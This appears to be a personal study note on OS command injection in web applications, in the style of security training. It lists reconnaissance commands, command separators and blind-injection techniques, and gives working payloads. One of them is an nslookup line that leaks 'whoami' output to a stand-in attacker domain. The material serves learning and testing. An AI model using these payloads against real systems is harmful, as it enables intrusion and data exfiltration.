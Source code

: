 # Injecting OS commands

## Useful commands

|Purpose of command|Linux|Windows|
|---|---|---|
|Name of current user|`whoami`|`whoami`|
|Operating system|`uname -a`|`ver`|
|Network configuration|`ifconfig`|`ipconfig /all`|
|Network connections|`netstat -an`|`netstat -an`|
|Running processes|`ps -ef`|`tasklist`|

## Ways of injecting

- **command separators**
	- <mark style="background: #BBFABBA6;">windows and linux</mark>:
	  -  `&`
	  - `&&`
	  - `|`
	  - `||`
	- <mark style="background: #FFF3A3A6;">Unix-based systems only</mark>:
		- `;`
		- Newline (`0x0a` or `\n`)

- **inline execution** of another injected command (<mark style="background: #FFF3A3A6;">unix-based only</mark>)
  -  `` `x` `` 
  -  ` $(x) `

- the difference between *shell character's behavior* can cause different impact → in-band / blind 
- input apears in *quoted context* (using `"` or `'`) → terminate befrore inject

## Basic

- Use command seprators + command to retrive data. [[WEB/vulnerabilities/Command Injection/payload#basic|example]]

# Blind 

-  the application does not return the output from the command within its _HTTP response_.
## by using time delays

- _ping_ command 
	- ex:  `& ping -c 10 127.0.0.1 &` [[WEB/vulnerabilities/Command Injection/payload#using time delays|payload]]
## by redirecting output

- `>` , `>>`
	- ex: `& whoami > /var/www/static/whoami.txt &` [[WEB/vulnerabilities/Command Injection/payload#by redirecting output|payload]]

## by using out-of-band (OAST)

- *`nslookup`* + inline execution+ a *domain* which the attacker controls: [[WEB/vulnerabilities/Command Injection/payload#by using out-of-band (OAST)|payload]]
	- ex: `& nslookup kgji2ohoyw.web-attacker.com &`
	- ex: ``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &`` => `wwwuser.kgji2ohoyw.web-attacker.com`
